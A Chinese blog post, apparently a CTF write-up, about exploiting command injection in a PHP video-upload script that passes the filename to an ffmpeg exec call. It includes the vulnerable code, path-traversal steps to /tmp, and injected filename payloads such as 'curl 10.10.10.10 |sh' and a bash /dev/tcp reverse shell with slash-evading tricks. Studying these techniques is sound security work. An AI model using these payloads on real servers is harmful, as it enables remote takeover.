 ```yaml
---
title: "每日一问：记一次命令注入RCE"
date: 2020-07-10T13:49:28+08:00
draft: false
tags:
- 渗透测试
- CTF
series:
-
categories:
- 渗透测试
---
```


在qq群里提出了一个**每日一问**的活动，目的是拓展渗透实战思路，问题不限于渗透、审计、红队、逆向。这篇文章是昨天晚上临时由实战环境改的一个CTF题。
<!--more-->

## 题目
模拟真实环境在群里出了一道CTF题当作**每日一问**，代码形如：

```php
<?php
header('Content-Type: text/html; charset=utf-8');
error_reporting(0);
$upload_dir = 'uploads/';
$isFfmpeg = isset($_POST['isFfmpeg']) ? (boolean)($_POST['isFfmpeg']) : false;
$save = isset($_POST['save']) ? $upload_dir . $_POST['save'] : false;
$filename = isset($_FILES['filename']) ? $_FILES['filename']['name'] : false;
if ($isFfmpeg && isset($_FILES)) {
    if ($filename && $save && $_FILES['filename']["type"] == 'video/blob') {
        if (move_uploaded_file($_FILES['filename']["tmp_name"], $save)) {
            $last_line = exec("ffmpeg -i " . $save . " -hide_banner");
           // echo 'success';
        } else {
            //echo 'error';
            unlink($save);
            unlink($_FILES['filename']['tmp_name']);
        }
    }
} else {
    show_source(__FILE__);
}
```
环境是oneinstack的集成环境，网站目录位于`/data/wwwroot/default/index.php`，index.php是root权限写入的。

## 题解思路

php文件很明确可以看出来两个洞：
1. 任意文件上传
2. 命令注入

首先尝试任意文件上传，直接怼上去shell试试，构造请求包：
![image.png](https://y4er.com/img/uploads/20200710137293.png)

访问 http://123.57.223.30/uploads/aa.php 报404，直接访问 http://123.57.223.30/uploads/ 没有这个目录，分析之后发现是`move_uploaded_file`的问题，当不存在uploads目录时会走else分支。

尝试跨目录`../`，shell应该在 http://123.57.223.30/aa.php 访问发现还是404。全站应该没有写入权限。只能走命令注入这条路了。

命令注入的关键点在于`move_uploaded_file`，首先找可写目录，比如`/tmp/`，因为不知道当前的绝对路径，我们可以用尽可能多的`../`跨到tmp，形如：
![image.png](https://y4er.com/img/uploads/20200710136835.png)

确实可行
![image.png](https://y4er.com/img/uploads/20200710132750.png)

这样走到exec之后注入，dnslog带外
![image.png](https://y4er.com/img/uploads/20200710136674.png)

![image.png](https://y4er.com/img/uploads/20200710131443.png)

这个时候上传的文件名为
![image.png](https://y4er.com/img/uploads/20200710131495.png)

尝试常规的bash反弹shell

```
bash -i >& /dev/tcp/ip/8080 0>&1
```
发包后没收到shell，因为`/`的问题，在`move_uploaded_file`的时候会报错，走不到exec()。

这个时候就是体现姿势的时候了。群友给了几个姿势

```
/../../../../../tmp/xx;curl 10.10.10.10 |sh ;
../../../../../../tmp/asdfasd.sh;bash $(php -r "print(chr(47));")tmp$(php -r "print(chr(47));")a.sh;
/../../../../../tmp/xx;bash -i >& ${PWD:0:1}dev${PWD:0:1}tcp${PWD:0:1}123.57.223.30${PWD:0:1}8080 0>&1;
echo `echo Lwo=|base64 -d`tmp
```

1. curl的原理是直接通过管道符执行curl的结果
2. 先传一
![image.png](https://y4er.com/img/uploads/20200710133042.png)
![image.png](https://y4er.com/img/uploads/20200710137327.png)

## 上帝视角
主要就是命令注入和`move_uploaded_file`在Linux下的绕过。回过头看Linux权限问题
![image.png](https://y4er.com/img/uploads/20200710138573.png)
index.php为root所属，其他用户只有读权限，不可写。完美复现实战中碰到的苛刻环境，利用还算简单，重点是通过bash配合其他命令进行绕过特殊字符串。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**